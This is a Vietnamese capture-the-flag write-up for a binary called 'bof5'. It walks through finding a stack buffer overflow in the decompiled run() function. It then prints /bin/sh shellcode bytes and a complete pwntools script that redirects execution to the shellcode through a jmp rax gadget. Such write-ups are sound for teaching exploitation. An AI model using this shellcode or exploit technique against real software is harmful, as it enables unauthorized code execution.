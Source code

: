 **1. Tìm lỗi**

Chạy thử file ta được:

![run.png](photo/run.png)

Dùng lệnh 'file' kiểm tra:

```
bof5: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3267d9785684992c18bae6fce662aec708bef193, for GNU/Linux 3.2.0, not stripped
```

---> Mở bằng IDA64 ta có:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[80]; // [rsp+0h] [rbp-50h] BYREF

  init(argc, argv, envp);
  run(v4);
  return 0;
}
```

Hàm run:

```
void *__fastcall run(void *a1)
{
  char v2[524]; // [rsp+10h] [rbp-210h] BYREF
  int v3; // [rsp+21Ch] [rbp-4h]

  v3 = 0;
  puts("What's your name?");
  printf("> ");
  read(0, a1, 0x50uLL);
  puts("What do you want for christmas?");
  printf("> ");
  read(0, v2, 0x220uLL);
  return a1;
}
```

Hàm trước tiên khai báo một mảng ký tự v2 có kích thước 524 byte, và một biến số nguyên v3 được khởi tạo bằng giá trị 0.

Sau đó, hàm sử dụng hàm puts() để in ra câu hỏi "What's your name?", và sử dụng hàm printf() để yêu cầu người dùng nhập tên của họ. Hàm read() được gọi đến, đọc tối đa 0x50 (80) byte thông tin người dùng nhập vào từ stdin và lưu trữ vào vùng nhớ được trỏ tới bởi con trỏ void a1.

Tiếp theo, hàm yêu cầu người dùng cho biết món quà Giáng sinh mà họ muốn nhận bằng cách sử dụng hàm puts() và printf(), và đọc tối đa 0x220 (544) byte thông tin từ stdin bằng hàm read(), lưu trữ thông tin vào mảng ký tự v2 nhưng biến v2 được khai báo là 524 byte -> Có lỗi bof.


Cuối cùng, hàm trả về con trỏ void a1, chứa tên của người dùng.

**2. Ý tưởng**

Chúng ta sẽ lưu shellcode ở biến a1. Sau đó nhập tràn từ biến v2 đến ret rồi điều hướng lại biến a1 để thực thi shellcode.

**3. Khai thác**

```
   0x0000000000401217 <+58>:    mov    rax,QWORD PTR [rbp-0x218]
   0x000000000040121e <+65>:    mov    edx,0x50
   0x0000000000401223 <+70>:    mov    rsi,rax
   0x0000000000401226 <+73>:    mov    edi,0x0
   0x000000000040122b <+78>:    call   0x4010a0 <read@plt>
```

Biến a1 được nhập tối đa 0x50 byte --> Được phép viết shellcode với 0x50 byte.

```
   0x000000000040124d <+112>:   lea    rax,[rbp-0x210]
   0x0000000000401254 <+119>:   mov    edx,0x220
   0x0000000000401259 <+124>:   mov    rsi,rax
   0x000000000040125c <+127>:   mov    edi,0x0
   0x0000000000401261 <+132>:   call   0x4010a0 <read@plt>
```

Khoảng cách từ v2 đến rbp là: 0x210 byte. Vậy nên khoảng cách từ biến v2 đến ret là: 0x210 + 0x8.

Ta thấy ở trước lệnh ret là:

```
0x0000000000401266 <+137>:   mov    rax,QWORD PTR [rbp-0x218]
```

Chương trình đã gán giá trị a1 cho rax hay shellcode mình muốn chèn vào nên chỉ cần kiếm một số gadget về rax là được.

Ta kiếm được 2 gadget có ích như sau:

```
0x0000000000401014 : call rax
0x000000000040110c : jmp rax
```

Tiếp theo là kiếm shellcode hoặc tự viết. Tôi kiếm được 1 cái như sau:

```
"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
```

Bây giờ thử trước với gadget jmp_rax ta break ở ret xem đã đến được shellcode của mình chưa:

![shell.png](photo/shell.png)

Vậy chương trình đã ret về shellcode của mình.

Ta có script như sau:

```
from pwn import *

exe = ELF('./bof5')
r = process(exe.path)

call_rax = 0x0000000000401014
jmp_rax = 0x000000000040110c
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload = b'a'*(0x210 + 0x8) + p64(jmp_rax)
#input()
r.sendafter(b'> ', shellcode)
r.sendafter(b'> ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)
